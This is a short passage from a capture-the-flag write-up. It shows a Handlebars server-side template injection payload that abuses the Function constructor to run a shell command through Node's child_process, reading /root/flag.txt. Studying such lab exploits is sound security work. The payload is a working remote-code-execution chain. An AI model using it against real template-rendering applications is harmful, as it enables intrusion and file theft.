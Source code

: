 ```js
```

![can't display an image](images/reapeter_out5.png)

- As you can see we find the flag , let's read the flag by other command.

```js
{{#with "s" as |string|}}
 {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
      {{#with string.split as |codelist|}}
      {{this.pop}}
       {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
         {{this}}
       {{/with}}
     {{/each}}
   {{/with}}
  {{/with}}
{{/with}}
{{/with}}
```

- The response to this code should be the flag .

![can't display an image](images/flag.png)

- We successfully got the flag!
- Congratulations , Assem_Ayman
